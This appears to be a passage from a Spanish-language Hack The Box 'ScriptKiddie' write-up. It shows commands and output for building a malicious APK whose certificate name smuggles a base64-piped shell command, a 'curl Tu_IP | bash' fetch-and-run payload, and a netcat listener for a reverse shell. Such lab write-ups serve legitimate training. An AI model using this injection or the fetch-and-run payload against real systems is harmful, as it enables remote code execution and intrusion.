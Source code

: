 * Abre un servidor en **Python**, en donde tengas el archivo **index.html**:
```bash
python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Genera la **APK** y dale los permisos a tu usuario principal:
```bash
python3 Msfvenom_Exploit.py                        
[+] Manufacturing evil apkfile
Payload: curl Tu_IP | bash
-dname: CN='|echo T3RyYSB2ZXogdHUgcGluY2hlIGNoaXNtb3NvLCB0ZSB3b2EgaGFja2VhciB4ZAo= | base64 -d | sh #
  adding: empty (stored 0%)
Generando par de claves RSA de 2,048 bits para certificado autofirmado (SHA256withRSA) con una validez de 90 días
        para: CN="'|echo T3RyYSB2ZXogdHUgcGluY2hlIGNoaXNtb3NvLCB0ZSB3b2EgaGFja2VhciB4ZAo= | base64 -d | sh #"
jar signed.
*
Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.
[+] Done! apkfile is at /tmp/tmpp003jckm/evil.apk
Do: msfvenom -x /tmp/tmpp003jckm/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
chown usuario:usuario -R /tmp/tmpp003jckm
```

* Abre una **netcat** con el puerto que pusiste en el archivo **index.html**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```
* Carga el archivo a la página:

<p align="center">
<img src="/assets/images/htb-writeup-scriptkiddie/Captura6.png">
</p>
